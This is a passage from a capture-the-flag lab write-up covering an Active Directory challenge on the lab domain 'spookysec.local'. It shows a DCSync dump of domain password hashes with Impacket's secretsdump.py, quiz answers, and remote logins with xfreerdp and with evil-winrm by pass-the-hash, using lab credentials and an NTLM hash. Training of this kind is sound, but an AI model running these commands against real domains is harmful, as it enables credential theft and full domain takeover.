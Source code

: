 Now that we have new user account credentials, we may have more privileges on the system than before. The username of the account "backup" gets us thinking. What is this the backup account to?

Well, it is the backup account for the Domain Controller. This account has a unique permission that allows all Active Directory changes to be synced with this user account. This includes password hashes

![](https://i.imgur.com/OPkFsf8.png)

Knowing this, we can use another tool within Impacket called "secretsdump.py". This will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer. Exploiting this, we will effectively have full control over the AD Domain.

#### Questions:

- What method allowed us to dump NTDS.DIT?
```bash
secretsdump.py -just-dc spookysec.local/backup:backup2517860@10.10.48.94
```

![](https://i.imgur.com/xL8TZ5Z.png)

_answer_:  `DRSUAPI`

- What is the Administrators NTLM hash?:
![](https://i.imgur.com/OEqC54N.png)

- What method of attack could allow us to authenticate as the user without the password?

_answer_:  `Pass The Hash`

- Using a tool called Evil-WinRM what option will allow us to use a hash?:

_answer_:  `-H`


## Flag Submission Panel 

- svc-admin

```bash
xfreerdp /v:spookysec.local /u:svc-admin /p:management2005
```

![](https://i.imgur.com/KoijtVx.png)

- backup 

```
xfreerdp /v:spookysec.local /u:backup /p:backup2517860
```

![](https://i.imgur.com/3mhVtkl.png)


- administrator

```bash
evil-winrm -i spookysec.local -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```

![](https://i.imgur.com/kWu5L0P.png)

![](https://i.imgur.com/2JRqpcU.png)

## Thanks For Reading
